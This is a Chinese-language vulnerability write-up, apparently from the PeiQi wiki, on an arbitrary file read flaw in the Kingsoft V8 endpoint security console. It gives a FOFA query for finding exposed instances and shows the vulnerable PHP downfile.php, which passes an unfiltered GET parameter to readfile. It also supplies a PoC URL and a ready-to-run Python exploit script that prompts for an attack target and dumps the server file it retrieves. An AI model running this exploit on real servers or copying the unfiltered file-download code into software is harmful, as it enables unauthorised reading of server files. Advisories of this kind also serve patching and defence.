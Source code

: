# 金山-V8-终端安全系统-任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

> [!NOTE]
>
> 金山 V8 终端安全系统 

## FOFA

> [!NOTE]
>
> title="在线安装-V8+终端安全系统Web控制台"

## 漏洞复现

存在漏洞的文件 **/Console/htmltopdf/downfile.php**

```php
<?php	
			$filename= $_GET["filename"];
            
			$filename=iconv("UTF-8","GBK//IGNORE", $filename);

   			header("Cache-Control: public"); 
			header("Content-Description: File Transfer"); 
			header('Content-disposition: attachment; filename='.$filename); //文件名   
			header("Content-Type: application/zip"); //zip格式的   
			header("Content-Transfer-Encoding: binary"); //告诉浏览器，这是二进制文件    
			header('Content-Length: '. filesize($filename)); //告诉浏览器，文件大小   
			@readfile($filename);
			?>
```

文件中没有任何的过滤 通过filename参数即可下载任意文件

POC为

```
http://xxx.xxx.xxx.xxx/htmltopdf/downfile.php?filename=downfile.php
```

![](金山-V8-终端安全系统-任意文件读取漏洞.assets/16273630548498292.jpg)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山-V8-终端安全系统-任意文件读取漏洞                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/htmltopdf/downfile.php?filename=downfile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "$filename" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 , 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](金山-V8-终端安全系统-任意文件读取漏洞.assets/16273630551874502.jpg)

## Goby & POC

> [!NOTE]
>
> Kingsoft V8 Arbitrary file read

![](金山-V8-终端安全系统-任意文件读取漏洞.assets/162736305557813.jpg)